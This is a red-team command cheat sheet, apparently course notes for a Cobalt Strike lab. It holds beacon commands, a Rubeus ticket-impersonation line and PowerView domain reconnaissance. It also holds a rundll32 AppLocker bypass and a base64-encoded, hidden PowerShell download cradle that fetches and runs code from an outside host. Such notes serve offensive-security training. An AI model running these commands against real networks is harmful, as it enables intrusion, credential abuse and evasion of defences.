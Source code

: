```
spawnto x64 %windir%\sysnative\dllhost.exe
```


List listening bindings
```
run netstat -anp tcp
```

To get beacon to send the info of itself to c2
```
checkin
```

Impersionation with ticket

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:username /password:FakePass /ticket:doIFwj[...]MuSU8=
setal_token xxx

```

Import Powerview

```
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Convert SID
```
powershell ConvertFrom-SID
```

Pwshell encode
```
PS C:\> 

$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/c"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))



powershell -w hidden -enc blabla
```

## Recon

[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38125201-powerview)

### Get-DomainUser
Get users and propierties
```
powershell Get-DomainUser -Properties DisplayName, MemberOf | fl
```


### Get-DomainComputer
Get computers

```
powershell Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName
```

### Get-DomainGroup

Return all domain groups or specific domain group objects.

```
powershell Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName
```

### Get-DomainGPOUserLocalGroupMapping

Enumerate the machines where a specific domain user/group is a member of a specific local group

```
powershell Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName | fl
```

## Applocker sus

As previously mentioned, DLL enforcement is not commonly enabled which allows us to call exported functions from DLLs on disk via rundll32.  Beacon's DLL payload exposes several exports including DllMain and StartW.  These can be changed in the Artifact Kit under src-main, dllmain.def.

C:\Windows\System32\rundll32.exe http_x64.dll,StartW
